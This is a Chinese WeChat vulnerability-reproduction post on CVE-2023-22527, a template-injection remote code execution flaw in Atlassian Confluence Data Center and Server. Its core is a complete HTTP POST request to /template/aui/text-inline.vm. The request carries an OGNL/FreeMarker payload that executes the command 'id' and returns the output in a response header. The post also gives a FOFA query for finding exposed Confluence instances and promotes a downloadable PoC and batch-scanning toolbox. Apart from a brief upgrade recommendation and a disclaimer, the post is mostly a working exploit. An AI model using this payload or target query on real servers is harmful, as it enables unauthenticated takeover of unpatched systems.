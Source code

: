 #  Atlassian Confluence存在远程代码执行漏洞（CVE-2023-22527） 附POC软件   
南风徐来  南风漏洞复现文库   2024-01-23 21:38  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
**大家关注一下我的另外一个公众号，这个公众号也会发POC，两个公众号发的漏洞不一样，基本每天更新。**  
  
  
****## 1. Atlassian Confluence简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
Atlassian Confluence是澳大利亚Atlassian公司的一套专业的企业知识管理与协同软件，也可以用于构建企业WiKi。  
## 2.漏洞描述  
  
Atlassian Confluence是澳大利亚Atlassian公司的一套专业的企业知识管理与协同软件，也可以用于构建企业WiKi。Atlassian Confluence Data Center and Server存在安全漏洞，该漏洞源于存在模板注入漏洞，允许未经身份验证的攻击者在受影响的实例上实现远程代码执行。  
  
CVE编号:CVE-2023-22527  
  
CNNVD编号:CNNVD-202401-1385  
  
CNVD编号:  
## 3.影响版本  
  
Confluence Data Center and Server 8.0.x ; Confluence Data Center and Server 8.1.x ; Confluence Data Center and Server 8.2.x ; Confluence Data Center and Server 8.3.x ;Confluence Data Center and Server 8.4.x ; 8.5.0 <= Confluence Data Center and Server <= 8.5.3  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCaaGBao6EaeBym7xIoXFGJJnmd1xC0icb7x44ibwwHicTYJ0ibNiaAeiaU0A0SMVoiasIYk98NgsVDHkGQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
Atlassian Confluence存在远程代码执行漏洞（CVE-2023-22527）  
## 4.fofa查询语句  
  
app="Atlassian-Confluence"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/template/aui/text-inline.vm  
  
漏洞数据包：  
```
POST /template/aui/text-inline.vm HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 287

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('Poc_Cmd-Response',(new freemarker.template.utility.Execute()).exec({'id'}))
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCaaGBao6EaeBym7xIoXFGGCeCaR2PSzRYD49doLD6lW365QJw1l5s9RjkP0527ozMABNWdd3VEQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现101 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCaaGBao6EaeBym7xIoXFGUfV5fMqFIP9tbOY21iagAEQQd2Ax9umicEwh8vLExqpib1ZplHnwKR1iag/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCaaGBao6EaeBym7xIoXFGib08zsqvUtgWAZVHh48GydCR50Libz0OYFO4XjBbFwV52gVz4zPpN0XA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCaaGBao6EaeBym7xIoXFGmsnE7P8ic40qcfJfE4bfff5o504yaxo6ibTJwU0WrOVcSpIKoOVq8nlg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCaaGBao6EaeBym7xIoXFG3uAPRicsFZXnQiasHMy0b8HVCZYLQfNHHZuqmfZzTmhMxoyzwW0yGPKA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCaaGBao6EaeBym7xIoXFG7ZLxBheIQqH2Sl9qFIOauYic1xW80Q746icRxtKyDjqH4MGAt0ZWQic5g/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCaaGBao6EaeBym7xIoXFGicEhVm03WgvZFZicYWJGtTRG4FkwNXwML6BREu0NvR0mXS4PjZbybibjQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
根据影响及其安全版本排查并升级到安全版本。  
## 8.往期回顾  
  
[用友NC Cloud portal/file接口存在任意文件读取漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485157&idx=1&sn=9982e579efc857e87c858de65030f7bf&chksm=974b8be2a03c02f442630f76f4281fd2c44d2cef1bfd34855bdd7e3d2351e6fc44e79baab56d&scene=21#wechat_redirect)  
  
  
[SpringBlade export-user接口存在SQL注入漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485142&idx=1&sn=f52966e0523d8d5d2e3312775b1ec315&chksm=974b8bd1a03c02c7f5260daaef01c0daf687559828f48de2f50ecdfe4c73e349113ff7145742&scene=21#wechat_redirect)  
  
  
  
  
